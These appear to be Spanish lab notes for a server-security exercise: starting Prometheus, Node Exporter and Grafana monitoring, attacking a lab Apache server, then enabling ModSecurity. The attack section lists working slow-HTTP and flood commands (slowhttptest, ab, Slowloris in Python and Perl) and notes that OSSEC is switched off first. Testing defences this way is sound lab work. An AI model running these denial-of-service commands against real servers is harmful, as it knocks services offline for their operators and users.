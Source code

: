> `vnstat -l -i ens33`

# L - Prometeus, Node exporter y Grafana

[Tuto](https://medium.com/@ismaelaguilera_/instalaci%C3%B3n-y-configuraci%C3%B3n-de-prometheus-grafana-centos8-331c0e43ccc1)

> Encender prometeus `systemctl start prometheus

Prometeus en `10.11.49.55:9090

> Encender node exporter `systemctl start node_exporter

> Encender Grafana `systemctl start grafana-server

Prometeus en `10.11.49.55:3000

>[!Important]
>Poner la escala de tiempo en 5 min, no en dias como esta por defecto (esto se cambia arriba a la derecha)

# N - Atacar server apache

>[!Important]
>EL OSSEC APAGADO PORSI

#### 1. Slowhttptest

> `slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://10.11.49.54 -x 24 -p 3`

#### 2. Apache benchmarking

> `ab -n 10000 -c 10000 http://10.11.49.55/`

#### 3. Slowloris Python

> `python3 slowloris.py 10.11.49.54 -s 500`

#### 4. Slowlori Perl


> `perl slowloris.pl -dns 10.11.49.55`

# O - Modsecurity

> [!note]
Para ver la lista de modulos activos usar `apachectl -M`.

> `a2enmod headers`

> `systemctl restart apache2`
### Modsecurity

> `a2enmod security2`
